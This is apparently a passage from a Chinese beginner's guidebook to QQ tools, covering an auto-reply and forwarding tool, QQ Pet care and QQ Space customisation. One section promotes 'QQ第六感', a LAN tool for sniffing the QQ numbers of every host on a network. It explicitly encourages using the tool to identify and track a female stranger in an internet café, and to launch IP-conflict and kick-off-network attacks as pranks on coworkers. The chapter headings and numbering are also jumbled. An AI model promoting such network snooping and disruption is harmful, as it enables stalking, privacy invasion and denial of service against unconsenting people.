首先必须填写的是 QQ 账号以及密码。如果挂机 QQ 接收到的消息需要转发，那就在“消息转发”中填写转发的 QQ 号码，不需转发时设置为 0 即可。“留言内容”中的信息即为回复内容（%uid 代表对方的 QQ 号码，%date 代表时间，%ct 代表对方的消息内容）。“账号备注”以及“登录状态”随意填写，“账号备注”我们可以用来标注上“张三”“李四”的挂机号码。“自动挂线”和“自动下线”最好选中，因为自动挂线代表开启软件则自动挂机，方便我们操作；自动下线代表此软件不妨碍挂机 QQ 号码在别处登录。


添加 QQ 号码完毕后，即可上线挂机了，并且在挂机列表中还可见 QQ 号的相关信息，并能直接显示 QQ 等级。无论多少个 QQ 号码，现在可以用这个软件轻松操纵了。如果其他 QQ 号向挂机 QQ 号发送信息，如果你选择了消息转发，对方发来的信息将会转发到设置的转向号码上（图3）。用转向号码也能及时回复，回复格式为“对方 QQ 号码|消息内容”，即可实现类似于手机呼叫转移的功能。

此挂机工具还能接受信息并储存，也可以类似于一个简易的聊天室（只是不支持 QQ 群聊天）。我们切换到“信息管理”，别人发来的信息都会保存在这里，方便我们的查看。并且在下面的输入框中输入回复的内容，然后点击“回复”按钮即可实现聊天功能（图4）。

进入“系统设置”，我们还可以进行更多的辅助设置。如果你经常需要挂 QQ，那么就设置为自动加载。还有消息提示等功能，可以根据用户自己的需要进行设定（图5）。在“调试信息”中还有相关登录信息，可以参考（图6）。

## QQ第六感 2.29

在网吧中上网，看到一个陌生的漂亮 MM，想要认识她却又不好意思开口直接讨要 QQ 号，怎么办？想和自己身处相同局域网的同事开个玩笑，进行 IP 攻击怎么做？现在为大家介绍一个工具——QQ 第六感 V2.0。如果你也使用局域网，那就赶快体验一下这个可以随意监听网络中任意 QQ 号的软件吧！

我们先来安装软件，这里提供的软件为注册版，安装完成即可直接使用。打开软件，如图1。

## 第二章 菜鸟的QQ工具箱

首先进行“初始化适配器列表”，此功能用于获取本机上所有的活动网络适配器，程序在开始时自动调用此命令，需要刷新适配器列表时重新调用。下面的“自定义”用于自定义网络适配器的各个地址，这个功能一般不需要，所以我们不必多言，进行下一步。


点击“在线主机”，即可获取网络中所有在线主机，对应的 IP 地址显示在左侧“在线主机 IP 地址”中（在此之前，请先在适配器列表中选择好网络适配器，程序默认选择找到的第一个网络适配器）。下面选中需要监听主机的 IP 地址（按 CTRL 键可多选），然后选择“监听 QQ 号”。现在即可监听到所选主机上的在线 QQ，如图2，在左框中可查看 IP 对应的在线 QQ 号码。这样局域网内的在线 QQ 就可以一览无余了，想加谁就加谁！


除了监听 QQ 号码外，还可以使用几个局域网内的攻击功能。冲突测试：在不确定自己选择的 IP 是否是所希望的主机时，用此命令。此命令可使所选主机上弹出一个“IP地址与网络上的其他系统有冲突”的警告窗口（图3）。在同一网吧搜索 MM，可以首先用此功能确定 MM 的主机，然后再监听 QQ 号码，配合使用，让 MM“无处可逃”。


- **冲突攻击**：此命令可使目的主机无休止地产生 IP 冲突。
- **踢出网络**：把所选主机给踢下线，请勿滥用！
- **清空列表**：清空所有监听到的 QQ 号码！

因为 QQ 软件代码具有一定的特征，所以才会被 QQ 第六感捕捉到。只要有人在用 QQ，都会不可避免地被探测到，这可是局域网玩转 QQ 的必备利器！身处局域网的你赶快去试用下吧！

## 第三章 QQ宠物跟我玩

从2005年5月底起，沉默已久的腾讯公司终于开始对早有传言的QQ宠物采取了内测，而这两次内测又完全吊足了广大QQ宠物迷的胃口。于是在同年的6月13日，腾讯正式推出了QQ宠物。到现在，几乎所有的QQ用户打开QQ后又多了一件事，那就是悉心照料自己可爱的宝贝。下面我就将多年QQ宠物培养心得奉献出来，希望能够对新手上路的朋友有所帮助。

QQ宠物是一款桌面宠物休闲养成游戏，整个游戏规则非常简单，而且里面的QQ宠物神态憨厚、语言幽默，时而酣然入睡，时而蹒跚前行，时而左顾右盼，让主人禁不住开怀大笑。

领养QQ宠物也并不是太难，目前已经有很多朋友通过腾讯官方网站所推出的“砸出我的Q宠宝贝”游戏（http://client.pet.qq.com/pet.htm），领养到了自己所喜爱的Q宠宝贝（图1）。但是让大家感到头疼的却是QQ虚拟宠物，与现实宠物一样都很娇惯，在生活以及饮食方面稍有照顾不周，就会很容易出现头疼脑热，甚至是宠物死亡的情况。如果你不想让Q宠离你远去，请跟随笔者一同踏上哺育QQ宠物的饲养之旅。

QQ宠物软件不是捆绑在QQ里的，我们需要下载才行。如果是首次使用Q宠宝贝，可以点击QQ面板右下方的“宠物”按钮，系统将会提示下载并安装QQ宠物资源包（图2）。当下载并成功安装了QQ宠物资源包后，就可以通过直接点击QQ面板下部的“宠物”按钮来启动Q宠宝贝。当然，如果你希望以后能够更加便捷地启动Q宠宝贝，请在宠物设置中选择“随QQ自动启动”，这样在登录QQ时，Q宠宝贝便会自动启动了。

### 初养QQ宠物成长的健康指引

初养QQ宠物会附一个房子、一颗还魂丹和500个元宝，如何很好地利用500个元宝是很重要的。假如你不想花Q币，那就更得注意了。在宠物的饲养中，需要注意几项健康指标，比如起初饥饿最好不要超过1800点，清洁值不能低于1440点，以及健康值不要低于3，要不然宠物就会很容易生病，从而使你失去更多的元宝来看医生。

如果初识Q宠宝贝就提示饥饿，你可以到“宠物社区”→“购物街”→“食品店”里为Q宠宝贝购买食品，购买的食品将会存放在“宠物社区”→“储藏室”→“喂养品”→“食品”标签中。你可以在这里使用食品给Q宠宝贝喂食，或者通过右击宠物身体，在弹出的快捷菜单内选择“喂养宠物”中的“喂食”选项（图3），然后进行购买并且使用断码香肠一类的食品，也会达到相同的喂食效果，并且还会提高其饥饿值属性。

如果你的Q宠宝贝觉得不舒服，做出挠痒痒的动作时，此时你就应该给小宝贝洗澡了。可以到“宠物社区”→“购物街”→“日用品店”，为Q宠宝贝购买日用品（图4），然后在“宠物社区”→“储藏室”→“喂养品”→“日用品”中，使用已经购买的日用品给Q宠宝贝进行洗澡。或者右击宠物身体，选择“喂养宠物”中的“洗澡”选项。

### 创建宠物QQ宝宝


使用强力吹风一类清洁工具，则会同样提高宠物清洁值，使其不再做出挠痒痒的动作。大家可以根据上面所规定的宠物属性指标，进行适当的喂养即可。

当然无可厚非的是，以上喂养操作均需要元宝，而元宝是通过宠物打工来获得。但是5级之前的宝宝，因为体能和各方面的因素还未发育健全，所以你最好不要通过打工来自食其力地养活自己，不妨通过吃附带的元宝使自己快速成长，否则只会影响到其宠物的生长速度。

### 让宠物打工来自食其力的生活

等到Q宠5级以后，相信附带的元宝已经所剩无几。为了解决宠物的生活问题，我们不得不让其去打工，来获取元宝维持生计。这里依然右击Q宠，在所显示的快捷菜单里，依次选择“喂养宠物→打工”选项，此时就会弹出“QQ宠物打工场”对话框（图5）。当然你也可以通过进入宠物社区的首页，选择打工场进入打工区，然后再选择您的Q宠宝贝将要打工的种类。不过由于我们目前Q宠没有任何技能，所以只能选择搬砖头的工种，其工钱为每小时20个元宝和10点武力值。

如果对于搬砖头的工种，你觉得靠其工作来养活宠物真的很没面子的话，那只有让Q宠好好学习，掌握更多的知识，才能挑选其他高尚且赚元宝多的职业。至于Q宠如何来学习，首先你的Q宠物必须达到六级，这样你就可以根据自己的爱好，选择喜欢的课程进行学习。宠物学校跟现实中学校体系基本一致，也分为小学、中学与大学三个级别，每个级别分为智力、魅力与武力三类，每个级别下的一类又分为三门单独的课程。如果你要想学习这些课程，请先右击“Q宠”身上，在所弹出的快捷菜单内，依次选择“喂养宠物”→“学习”选项，在弹出的学堂对话框内，选择你想要学习的课程即可。对于以前学习的课程，点“继续学习”直到毕业为止，其每节课学习时间为45分钟，增加5点属性值（图6）。


### 3.3 宠物娱乐、旅游可以提升心情属性值

除了乏味而又紧张的学习外，宠物也有自己娱乐的活动，比如为宠物配备玩具，通过此可以提高其宠物的心情，从而使其成长速度为最快的状态。其配备玩具方法，你可以到“宠物社区”→“玩具城”，与店主熊大叔对话，为你的Q宠宝贝购买一些玩具。然后再依次进入“宠物社区”→“储藏室”→“玩具箱”中使用里面已经购买的玩具，就可将其玩具佩带上了。或者你也可以通过右击“宠物身体”，选择“宠物娱乐”→“玩具箱”选项（图7），为Q宠宝贝装备玩具。而其装备了玩具的宠物，在感受到主人的爱护时，会做出更有趣的表演，同时还可以提升宠物的心情属性。反之你要想卸载玩具，只要依次选择“宠物娱乐”→“卸载玩具”选项，就可将其宠物所佩带的玩具卸载掉（图8）。另外，“宠物旅游”也可以提升心情属性值。这里你只要右击宠物身体，在弹出的快捷菜单内，选择“宠物旅游”里的“随便逛逛”“拜访好友”以及“逛好友圈”等不同方式（图9），让其宠物宝贝外出旅游。其好处不仅局限于宠物的心情舒畅、提高心情属性，而且还可以建立和维护Q宠宝贝自己的朋友圈，增进宠物主人间的交流，另外还有机会获得其他属性值、元宝等奖励哦！


小提示：心情值是Q宠宝贝当前的心情指数，心情值由健康值和主人与Q宠宝贝的交互时间决定。经常陪你的宝贝玩耍，并且Q宠宝宝一直保持健康的状况，那么它的心情值将保持比较高的状态；反之，则心情值将会降低。由于宠物的成长速度由宠物的心情值决定，所以要好好呵护你的Q宠宝贝，让Q宠宝贝有个好的心情，成长就会快很多；当Q宠宝贝心情值很低时，成长也会降低，甚至会暂时停止生长。

### 3.4 出门旅游少不了的交通工具

如果你想在外出旅游之际有专车接送，并且还能提高活跃度，不妨运用Q宠宝贝里的“交通工具”，帮你实现这个愿望。交通工具分为车架类、魔法类、海游类、飞行类、坐骑类和极品类，每一种交通工具都可以让你的宝贝尽情展现个性。要想购买其交通工具，可以到“购物街”的“交通工具商城”购买交通工具（图10），然后在“储藏室”看到并使用所购买的交通工具即可。当然不同的交通工具所需要的级别和活跃度要求不一样，请大家在购买的时候仔细看好后，再做出选择和购买。

### 3.5 宠物炫，交流中的一种调皮方式

众所周知，宠物炫是与QQ好友交流的一种方式，其调皮、摆弄身体，以及像孙悟空七十二变的形态，很是惹人喜爱。如果要想通过此方式与好友交流，首先拥有Q宠宝贝是其一，而其二则是你要带上Q宠，到宠物学校（Q宠小学、Q宠中学、大学城均可）找到嘟嘟老师，学习各种宠物炫的技能（图11）。但是有些炫是有条件限制的，必须得先学会它的基本炫，才能学习下一种技能。比如要想学习“狂笑”技能，就必须先学会“大笑”技能，然后你的宠物等级也得达到它的要求才可以。

当学习完毕后，想要给QQ好友发送宠物炫，请先打开与其好友聊天的对话框窗体，然后单击“会员魔法表情/宠物炫”图标，在所显示的对话框内切入至“宠物炫”标签，选择你想发送的宠物炫后（图12），输入其宠物炫说话内容，单击“发送”按钮，其可爱的宠物炫即可出现在和好友对话框的上部。反之，你的好友想回复其宠物炫，只要单击“回复”按钮，在打开的宠物炫列表中选择其自定义内容即可。只要点“回复”宠物炫，就可轻松回复好友所发送的宠物炫了。


### 查看Q宠宝贝的当前状态

当Q宠启动后，其任务栏右下角就会有宠物图标显示，并且还会将Q宠宝贝当前的具体状态表达得淋漓尽致。换句话说，就是你的Q宠宝贝饿了、脏了、病了，或Q宠宝贝当前正处于打工、学习或者旅游状态时，宠物状态图标都会显示不同的动作信息。如果此时我们将鼠标挪移到右下角宠物图标处，还会出现当前宠物档案的信息，比如昵称、等级、年龄、状态等信息内容（图13）。但是要看到里面的具体数值，需要将鼠标挪移到属性列表上，这样才能显示宠物当前成长、饥饿、清洁、健康、心情的具体数值（图14）。你也可以通过识别状态横条的颜色，了解您的Q宠宝贝当前成长的情况。当饥饿、清洁或心情状态横条呈蓝色时，表示您的Q宠宝贝处于正常平衡状态；呈红色或橙色时，都表示状态值过高或者过低。如果这样还觉得很模糊，你可以左击宠物身体，在其显示的快捷菜单内，依次选择“宠物状态”→“查看详细资料”选项，就可在弹出的对话框内查看到Q宠宝贝的详细资料了（图15）。或者进入“宠物社区”中，点击“我的家”标签，也可以看到Q宠宝贝的详细资料以及状态资料。

### 宠物生病以及宠物死亡的治疗方法

因为你工作繁忙的原因，没能照顾好Q宠宝贝，使其出现浑身发抖的生病现象。这时你就应该带上QQ宠物，去“宠物社区”的医院，找到熊猫姐姐请其给你开药方后，并购买使用进行治疗（图16）。当然你觉得这样做很麻烦，也可以直接使用包治百病的“还魂丹”使你的Q宠宝贝恢复健康。如果在宠物生病时没有能够进行及时治疗，导致宠物不幸死亡，是不是我们就会失去宠物了呢？结果当然不是这样的。虚拟宠物与现实宠物相比，好就好在这里，我们可以通过选择“复活宠物”选项，将死去的宠物复活，并且原有的等级和成长值等属性都不会变。当然这里也不排除你想通过病死宠物宝宝的方式将其抛弃，那么你就要选择埋葬宠物，这样宠物所有相关资料包括等级、宠物元宝等，都会被清空。


### 8.8 房产和家居——个性造型家

谁都想拥有一个属于自己的小窝，现实宠物和虚拟宠物也是如此。当宠物打工累了，Q宠就可以回家进行休息（图17）。而其小窝是在宠物诞生时就会有的一个默认房屋，如果你对这个默认小屋的装扮很不满意，可以通过在装扮屋内寻找所喜爱的宠物之家。有了漂亮的家，还可以选择给家装饰一番，精灵、伴侣，还有植物，也都是非常不错的选择。


### 8.9 QQ宠物结婚

QQ宠物之间是可以结婚的，而且每只宠物一天只能发送一次求婚请求。但是前提条件是：你的宠物和将要成为配偶的宠物，两者必须都达到15级，并且还得都是同一代的异性宠物，然后才能去大教堂找山羊牧师举行婚礼，结为夫妻（图18）。当然两个宠物并不是同一代，却硬想让其宠物结婚也不是没有办法，不过要具备的是：求婚方宠物的等级必须大于或等于20级，而且隔代结婚的宠物双方代数必须满足在包含自己上下3代以内。比如：代数为3代的20级宠物可以向1至5代内其中任意一代Q宠求婚。再则，隔代结婚的宠物双方不允许是三代以内的近亲宠物，例如被求婚方的宠物父母与求婚方宠物为兄弟关系的宠物，则不可以隔代结婚。只要具备了以上条件，其隔代异性宠物也可结婚，是可以结为夫妇的。


如果你的宠物找不到与自己合适的夫妻伴侣，可以到“俱乐部”→“玫瑰园”，登记一下自己的征婚信息（图19），这样当有其他也未找到合适伴侣的Q宠主人，就会与你联系进行宠物拍拖且结婚。

### 宠物蛋的领取和赠送

你的Q宠宝贝结婚后，如果超过200个小时，就可以获得一个或者多个宠物蛋，而其每个宠物蛋就会孵化出一个宠物小宝宝。不过从古至今，生宝宝都是母方，所以要想获取宠物蛋，得由Q宠MM到宠物大教堂找山羊牧师领取，并且培育其宠物蛋的权利，只有Q宠MM有权进行选择。

另外，由于腾讯有规定，每个用户只能有一个QQ宠物，因此你通过自己宠物与他人宠物交配所获得的宠物蛋，对自己就没有任何用处，只能将其送人。这里打开“QQ宠物资料”对话框，其默认就会切入至“宠物资料”标签，我们这里只要单击“赠送给好友”按钮，然后从中便可选择你想赠送宠物蛋的QQ好友即可（图20）。


### 喜新厌旧：宠物离婚

“喜新厌旧”是人类普遍具有的正常心理和行为，因此宠物也不例外，而且操纵QQ宠物也正是我们自己。如果因为长时间总在一起的关系，你厌烦了其配偶宠的体态，想换换“口味”，可以进行离婚。而其离婚和结婚都是一样，必须都得去宠物大教堂，找山羊老师并与其进行对话后，选择“我要离婚”选项。此时就会向配偶发送离婚请求，如果对方同意你的离婚请求，你们的宠物婚姻才算解除。

### 让Q宠宝贝靓得与众不同

自从腾讯公司于4月5日起正式推出“粉钻贵族”的特权后，在网络里引起了广泛的购买热潮。因为它的出现给千万甚至更多的Q宠宝贝带来了无限的惊喜。比如开通“粉钻贵族”后，你的Q宠宝贝有如“脱胎换骨”，在宠物资料栏上宠物昵称将会变成粉色，而且昵称旁边会有粉钻标志。另外拥有粉钻特权的宠物，还可以免费进行看病，以及免费使用装扮和交通工具，并且在购买物品方面还可以享受八折优惠。

至于如何开通粉钻，其实方法很简单，不过得需要花费点人民币。这里进入 http://pet.qq.com/vip/ 官方网站，然后在其上方登录自己的QQ号码以及密码后，根据你所拥有的服务，在其编辑区内进行选择。比如笔者拥有Q币卡，就在其左侧选择“Q币/Q点账户开通”标签，接着在所显示的区域内，选择开通的粉钻时间以及支付方式，单击“下一步”按钮，即可按照“向导引导”方式，来完成开通粉钻的服务（图21）。


### 3.13 20级Q宠可以去冒险岛“旅游”

日复一日，年复一年，Q宠也会随着我们耐心的照顾而慢慢长大。等到其等级达到20级后，我们就可以带领Q宠去冒险。如果冒险闯关成功，还将会获得一定量的道具、金币以及属性值。至于如何才能让宠物去冒险，这里只要进入宠物社区，拖动其地图里的框选图标到右下方，就可在社区界面内看到一个名为“冒险岛”的小船（图22）。


如果要想登上小船去冒险，请单击“小船”图标进入，等到播放一段冒险影片后，单击“开始游戏”按钮，即可踏上宠物冒险的征程。

### 3.14 群消息设置提醒


专心致志地照顾Q宠，难免会错过群里的重要信息，所以为了群里的信息和Q宠照顾两不误，这里不妨通过右键宠物身体，选择“群消息提醒”选项，在所弹出的“群信息提醒”对话框内，设置其自己感兴趣的话题。这样一旦群里有人提出类似有关的话题，Q宠就会拍打桌面，提醒你不要错过（图23）。但是设置话题的数量有限，而我希望Q宠能够提醒我所有的消息，怎么办呢？只要在话题中设置一个“任何话”，其Q宠就会乖乖地将群消息一个不落地都提醒给你。

### 3.15 拒绝其他好友的Q宠打扰


如果你正兴高采烈地玩着激烈的对战游戏，突然间有好友或者Q宠的来访，这样就会很容易打断我们的游戏兴致。为了避免此类情况再次发生，我们在玩游戏之前，请右击Q宠宝贝身体，然后依次选择“设置”→“系统设置”选项，在弹出的“设置”对话框内，勾选上“设置为免打扰状态”和“拒绝其他宠物来访”两个复选框后，单击“确定”按钮使其生效（图24）。这样以后我们在玩游戏中，就不必担心其他好友的宠物来访而影响到自己的游戏心情了。

### 3.16 聘请Q宠保姆，帮您妥善喂养自己的“虚拟宝宝”

养QQ宠物的确是一件很麻烦且很费神的事，因为宠物没元宝了得带它去打工，宠物饿了得去喂养，以及生病了得带它去看医生等等。想起这些事情，就算是再有耐心的你，也会对反复的操作而感到厌倦。因此为了省事且照顾周到，我们不妨给它请一个免费的贴身保姆得了！

小提示：Q宠保姆是一款配合QQ宠物使用的小软件，其功能不仅局限于帮助用户实现宠物自动喂养的功能，而且它还提供了自动洗澡、自动逗宠、自动购物、自动看病，以及自动学习等其他宠物功能，是帮你把Q宠喂得白白胖胖不可多得的经典软件。

在运行Q宠保姆软件前，我们先登录含有QQ宠物的号码，然后再运行“Q宠保姆”客户端，这样软件界面才会自动检测到当前有几个宠物在线（图25）。如果软件未能找到你的Q宠，请单击“刷新”按钮，等到检测到你的Q宠后，再到其界面内单击“设置”按钮，这样就会弹出“参数配置”对话框（图26）。如果你要想请“保姆”自动给你的QQ宠物喂食、打工以及带宠物去购物等操作，请勾选里面自动喂食、自动打工、自动洗澡，以及自动逗宠的相关项，单击“确定”按钮。顺原路返回到软件界面，单击“开始”按钮，“保姆”便可开始细心为你照顾宠物了。


不过要知道“保姆”只是起到帮助你照看的作用，它并未给你的宠物提供口粮，所以还需你自己购买。对于其保姆宠物库存状态的查看，可依次选择“宠物→宠物设置→库存信息→查看物品库存”选项，然后在弹出的对话框中，显示了QQ宠物目前所剩余的日用品、食物、药品以及玩具等（图27）。另外其程序中还设置了Q宠嘉年华，在缴了一定的元宝金额后，你可以让自己的宠物去游泳、去赛跑、去跳高，如果胜了的话还可以获得一定的奖品呢。


为了节省系统资源，可能有些朋友不想挂Q，只想挂Q宠，那么这里你不妨先照常登录以后，启动“Q宠”保姆再将其QQ关闭，让其保姆帮你细心照顾。当然你也无需担心网络断线问题，因为“保姆”本身具备自动断线检测功能。

小提示：如果你不想被别人看到自己请“保姆”养Q宠，那么可以启动老板键功能。按下“Ctrl+12”组合键就可完全隐藏“保姆”。

由于QQ软件使用极为普遍，加之其用户众多，难免会有“爱屋及乌”的现象。QQ空间提供了“主页”“日志”“音乐盒”“留言板”“相册”“迷你屋”“个人档案”“互动”等功能模块，其中日志相当于博客，也可作为公开日记，是表达心声的“讲台”，因此很多用户与QQ空间结下了“不解之缘”。

### 小知识！

> QQ空间也叫Q-ZONE，是一个专属于自己的个性空间，是新新人类网络生活方式。拥有Q-ZONE可使用网络日志、相册、音乐盒、神奇花藤、互动等动态功能，还可装扮头像贴、皮肤、漂浮物、挂件等，随心更改空间风格，书写心情，释放精彩。

### 开通QQ个人空间

登录QQ的用户并不会自动开通Qzone，需要进入“QQ空间新用户注册”页面（示例地址：imgcache.qq.com/qzone/web/load_login_1.htm），输入未开通空间的QQ号码、密码及验证码。登录后进入“填写个人资料”页面，选择喜欢的模板和皮肤，点击“立即开通QQ空间”，稍后会弹出“QQ空间开通成功”提示，点击“确定”即可进入个人空间页面。


### QQ空间模板设置

新开通的空间通常没有设置和装扮，初次进入会显得较为单调。为了让空间更华丽美观，可以进一步进行模板与风格设置。


## 第四章 打造最闪亮的QQ空间

起初令人乏味的外表，下面不妨跟随笔者为其进行一下装扮。打开QQ空间页面，在其右上角位置处单击“自定义”标签，此时空间最右侧就会显示出有关“自定义栏目”的列表。我们从中选择“风格设置”选项，在弹出的网页对话框内（图3），默认选中的是“蓝色风格”单选框，这里大家可以根据自己的喜好进行选择，然后单击“提交”按钮使其选择的风格生效，这样空间也会随之发生巨大的颜色改变（图4）。

### 如何撰写自己的日志

工作忙碌了一天，想找个地方说说心里话，QQ空间里的日志，就是你与网友共同分享快乐和忧伤的好去处。如果想在这里发表言论，请在QQ空间右侧切入至“日志”标签，然后在自动跳转到日志页面内，单击“写日志”标签，从中输入你想写的日志标题，以及内容。操作完毕后，如果你觉得默认所指的类别“个人日记”与所写的内容不匹配，可以单击其后面“添加类别”按钮，输入自己想要的类别方式，比如情感天地、原创文学等等，然后单击“确定”按钮，就可将其添加到类别列表内，并且此时默认就会选择你刚添加进来的类别（图5）。


以文字表达自己，虽然是最透彻的方式，但是时间久了总会让人疲倦。如果能在添加文字日志的同时，里面还能插入动态的视频，相信不仅不会让大家从观赏上感到疲倦，而且还会使他们觉得其空间很绚丽、很有观赏价值。上传视频有两种方式：

- 一种是通过访问QQVideo网站（http://video.qq.com），登录后进入“上传视频”页面，勾选“同时生成视频日志到QQ空间”选项，上传成功并通过审核后，即可在QQ空间生成视频日志（图6）。
- 第二种也是通过访问QQVideo网站（http://video.qq.com），不过在登录后虽然进入的是“上传/录制”页面，但是在里面选择的是“在线录制”选项。当录制一段视频后，进入第二步“填写信息”页面，勾选里面“同时生成视频日志到QQ空间”选项，上传成功并通过审核后，同样会在QQ空间生成视频日志。

### 添加空间音乐收藏

在浏览别人的QQ空间时，大家或许总能欣赏到个性惟妙惟肖的歌曲，而这些歌曲并非是QQ自带的音乐，都是用户自行添加的音乐。至于如何添加空间音乐，我们可以通过在QQ空间内切入至“音乐盒”标签，然后在所进入的音乐界面内，单击左侧“添加音乐”按钮，此时你可以通过排行榜、歌手分类索引，以及音乐搜索功能很方便地找到自己喜欢的歌曲（图7）。然后单击歌曲名后面的“加号”按钮，将其歌曲加入到选择播放列表后，再单击列表下方的“收藏”标签，就可将其歌曲添加到你的音乐收藏内。

倘若你在排行榜和歌手分类索引内，并没有找到自己想要听的歌曲，可以单击上方“添加网络音乐”按钮，进入到“添加音乐”页面（图8）。按照里面相关的标签提示，填写其想要收藏歌曲的相关内容后，单击下方“提交”按钮，网络音乐就可添加成功。不过还没有完，稍后请依次单击“音乐收藏”→“网络音乐”选项，此时在所显示页面刚刚添加歌曲的后面，单击“加入播放列表”按钮，这样才能算是自定义歌曲收藏成功。


如果要想建立自己的劲歌榜，请在音乐盒的劲歌榜栏目内，单击“开始添加”标签（图9），打开“编辑劲歌榜列表”页面，选择音乐收藏中的歌曲作为打榜歌曲，并且还可对每首歌曲进行排序。如果访客愿意的话，还可以对劲歌榜进行投票和评论，从而给我们更多的指点和帮助。


至于如何建立偶像专区也是同样道理，在进入音乐盒中的“偶像”栏目内，单击“添加偶像”按钮，就可进行添加自己所喜爱的偶像了，不过最多只能添加十个偶像，大家可要仔细想好再进行加入，否则还得动用不必要的删除功能。在“我的偶像”标题右侧有一排功能按钮，可以对其添加的偶像进行编辑、删除，以及设置是否在音乐盒首页显示的功能。另外在每个偶像的资料下方，都可以发布相关资讯，访客还可以对每个偶像进行投票及评论。

### 使用留言板给访客留言

当自己想给很多访客留言时，你可以通过留言板的功能，向大家发布自己最想说的一句，或者一段肺腑之言，来和访客共同抒发自己内心情感，从而可以使自己不再孤单。使用方法比较简单，与聊天窗口的使用基本是一样的，唯一不同就是需要我们输入验证码，然后才能将留言发送出去（图10）。


### 玩转QQ空间相册

在旅游观光中，所照出的相片想与网友们共同来分享时，不妨让QQ相册来收留它们。其相册可以最多创建50个，并且还可以支持Flash相册的效果图片，让你更快、更轻松、更愉快地来回忆往昔。

因为还没有建立相册，所以我们初次进入“相册”页面，想上传照片或者图片，需先单击“创建相册”按钮，进入“创建相册”编辑区，输入其想创建的相册名称、相册介绍，以及相册分类等（图11）。不过要注意的是下方“访问权限”的选择，其“公开”即任何人都可以浏览此相册；“需要密码”顾名思义只有知道访问密码的用户，才可以浏览此相册；反之“不公开”即只有您自己才能浏览此相册，请根据自己的实际情况进行选择。然后单击“创建”按钮，就可成功创建一个存放图片的相册了。


如果此时你想把自己在外拍摄的旅游照片，存放到已添加的相册里，请先选择此要存放的相册，然后再单击“上传图片”按钮，进入到“上传照片”页面。从中单击“浏览”按钮，在弹出的“选择文件”对话框内，找到所要上传的照片或者图片，单击“确定”按钮就可将其载入到准备上传栏内。如果我们还想上传一张照片到准备上传栏，这里只要单击下方“再添加一张”标签，然后单击新增的“浏览”按钮，找到想要上传的图片即可。反之想要删除载入的准备上传图片，只要单击“减少一张”标签，就可将最后上传的图片删除。操作完毕后，单击下方“上传”按钮，此时就可将载入的图片上传到相册（图12）。


当然如果你不是QQ黄钻用户，可能在上传图片时会碰到“今天上传的总空间已满，请明天再传……”的提示限制，导致我们本次上传失败不说，而且还要无奈地等到明天，早早来上传。殊不知无需开通VIP上传通道，也可解决今日上传已满的问题。


打开QQ空间日志，单击“写日志”按钮，进入到“编写日志”页面，单击“插入图片”按钮（图13）。在弹出的对话框中，选择“从相册中选一张或上传一张新图”选项，然后在下方“本地上传”栏后单击“浏览”按钮，选择自己想要上传的图片后，单击“提交”按钮就可将其载入到贴图相册内，最后重新打开一个QQ相册，并进入贴图相册内将上传的图片编辑到你想要的分类即可。

### 管理自己个人档案

为了让每位浏览空间的用户，能够轻松快速地了解其空间主人，我们必须得先有个自己的个人档案，才能让大家进行了解。这里直接单击“个人档”标签，或单击空间首页的“管理”按钮，其默认会进入“个人档资料”页面，从中可以填写自己的个人资料，比如昵称、空间名称、个人说明、个性签名、兴趣爱好等。填写完毕后，单击“保存资料”按钮就可将其信息存储到空间内。

如果你想查看当前空间人气，并且想得到一个准确的数字，只要进入“主页”页面，单击左侧“统计”标签，就可查看到空间今天的统计信息，以及总访问的人数（图14）。倘若此时QQ空间的页面显示为旧的页面，并且与植物指数显示不符，你就可以通过单击“统计”标签下的“刷新”按钮，来进行更新。


### 使用互动功能

在使用互动功能之前，我们首先要将想要互动的好友空间进行收藏，然后才能做以下的收藏说明更改、是否接受更新提醒、删除收藏好友，以及直接进行互访等操作。

至于如何收藏好友的空间，有两种方式可以将其收藏：

- 第一种访问您要关注的好友空间，点击右上角的“关注”，就可以关注该好友的空间（图15）。
- 第二种，将要关注的好友添加为密友（密友的添加方法详见“如何进行空间管理”），然后在空间的管理页面中，单击“我的密友”，查看该好友所在的分组，并且找到要收藏的好友，单击“收藏”按钮，填写好收藏说明就可以了。

收藏完毕后，将要关注的好友的“更新提醒”勾上后，当好友空间有更新时，就可以收到更新提醒了。反之觉得提醒消息很闹心，可以去掉“更新提醒”前的复选框，或者直接单击“删除”按钮，就可不再收藏其好友空间，以及接收更新信息。


### 装扮自己的QQ空间

人靠衣装，美靠靓装。为了使QQ空间更加绚丽多姿，我们需先对其空间进行打扮一番，才能使它变得与众不同。其装扮方法很简单，只要在QQ空间页面上，单击右上角的“装扮空间”按钮，就可进入到装扮商城列表页面（图16）。此时你可以在上方的分类列表中，找到想要进行装扮的部分，比如皮肤、欢迎动画、个性导航菜单、挂件、漂浮物、banner、公告栏、播放器等。操作完毕后，单击物品列表里的图片，就可预览到装扮后的效果。

得很满意，可以单击物品下的“购买”或者“赠送”按钮进行支付。当然你也可以单击“索要”按钮，让好友来帮你支付这件物品，然后单击“保存方案”按钮，购买你本次装扮的物品，并且其物品有效期是从你购买物品起6个月内有效。

接下来在装扮空间的“我的商城”标签内，选择“我的物品”选项，此时就可以显示出曾经购买过的所有装饰物品，这里选择您要更换的物品图片，然后保存就可彻底更换原先的装饰图片了。当然如果经济条件较好的情况下，经常更换不同的装饰物，可以让空间保持新鲜感，从而使那些经常访问空间的朋友，不会在欣赏方面觉得很疲劳。

### 制作自己的大头贴

现实中的大头贴，照一版需要五元，多则十元甚至二十元不等的价位。如果是有钱的学生，可能会觉得无所谓，想照就照。但是对于没钱的学生，可就只能眼巴巴地欣赏别人所拍摄的大头贴了。为了使像笔者一样的穷学生，也能体验大头贴的乐趣，这里不妨利用QQ空间来帮你实现这个愿望。

不过前提是最好你的电脑里安装有摄像头，然后在进入“QQ商城”页面，单击上方“大头贴”专栏，选择里面“用摄像头拍摄”选项后，此时编辑区拍摄框内就会出现摄像头所拍摄的自己。如果觉得很单调，你可以在右侧选择一个适合自己的图案来做照片边框，而后单击下方“保存当前一张”按钮即可。

当然这里也不排除你的电脑没有摄像头，但是本机里存有自己照片的情况。对于此情况我们可以在“大头贴”专栏内，单击“上传已有照片”按钮，在弹出的“插入图片”对话框内，选择“从电脑上传一张新图”选项，单击“浏览”按钮，从本机内找到自己想要上传的照片后，双击其“照片”名称就可将其载入到编辑区（图17），然后同样单击下方“保存当前一张”按钮将其存储。


### 绝不苦恼的养花匠

